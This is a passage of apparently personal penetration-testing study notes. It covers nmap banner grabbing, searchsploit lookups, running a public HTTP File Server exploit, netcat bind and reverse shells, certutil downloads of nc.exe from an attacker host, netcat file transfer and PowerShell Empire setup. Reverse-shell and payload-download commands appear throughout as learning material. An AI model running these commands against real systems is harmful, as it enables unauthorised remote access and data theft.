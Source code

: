 <h2>Banner Grabbing</h2>
An information gathering technique used by pen testers to enum info regarding the target OS and services running on open ports.

```
nmap -sC -sV -O -T3 ip -oX output.xml
```

```
nmap -sV --script=banner 192.8.94.3
```

```
nc 192.8.94.3 22
```

```
nmap -sV -p 80 --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" 192.152.25.3
```

```
ls -al /usr/share/nmap/scripts | grep vuln
```


`www.packetstormsecurity.com`
`rapid7`
`googlehacking database `

```
searchsploit vsftpd
```

```
searchsploit -t vsftpd
```

Command to copy the exploit into your current working directory
```
searchsploit -m /PATH
```

commands can be used to display the Exploit-db URL instead of the EDBID?
```
searchsploit -w vsftdp
```

<h2>Fixing Exploitation</h2>
```
searchsploit HTTP File Server 2.3
```
```
searchsploit -m 39161
```
```
vim 39161.py
```
```
cp /usr/share/windows-resources/binaries/nc.exe /root/Desktop/
```
```
python -m SimpleHTTPServer 80
```
```
nc -nvlp 1234
```
```
python 39161.py demo.ine.local 80
```

<h2>Bind & Reverse Shell </h2>

TCP
```
nc -nv ip port
```

UDP
```
nc -nvu ip port 
```

Listen
```
nc -nlvp 13444  
```
Windows:
```
nc.exe -nv ip port
```

Receiver:
```
nc -nlvp Port > text.txt
```

Sender:
```
nc -nv <ReceiverIP> Port < test.txt 
```


<h3>Bind Shell</h3>
Disadvantage: Need to Setup In Client Machine.

Netcat Client(Attacker) ------------------> Netcat Listerner(Target) {cmd.exe}{/bin/bash}

Target:
```
certutil -urlcache -split -f https://AttackerIP/nc.exe nc.exe
```

```
certutil -urlcache -f http://10.10.31.2/nc.exe nc.exe
```

```
nc.exe -nlvp Port -e cmd.exe
```

Attacker:
```
nc -nv TargetIP Port

whoami
dir
```


if Attacker machine is windows  and target is linux Kali
Target:
```
nc -nlvp port -c /bin/bash
```

Attacker:
```
nc.exe -nv TargetIP Port

ls
id
```

<h3> Reverse Shell </h3>
Advantage: no NEED to setup in Client Machine.

Netcat Listerner(Attacker) <------------------------- Netcat Client(Target)

Attacker:
```
nc -nlvp 1234
```

Target:
```
nc.exe -nv AttackerIP -e cmd.exe
```

This has a alternative of using powershell or any other command.

<h2>Reverse Shell Cheetsheet </h2>

```
https://github.com/swisskyrepo/PayloadsAllTheThings
```

```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
```

```
www.revshells.com
```

<h3>Exploitation Frameworks</h3>

<h4> MSF Framework </h4>

<h4> PowerShell Empire </h4>
```
	sudo apt-get update && sudo apt-get install powershell-empire starkiller -y 
```


Now we start backend of powershell empire
```
sudo powershell-empire server
```

Server>

```
sudo powershell-empire client
```

(Empire) >

```
listerns

agents

help

intract <machineName>
```
agents - no of machines compramised

open starkill in GUI

username : empireadmin
password : password123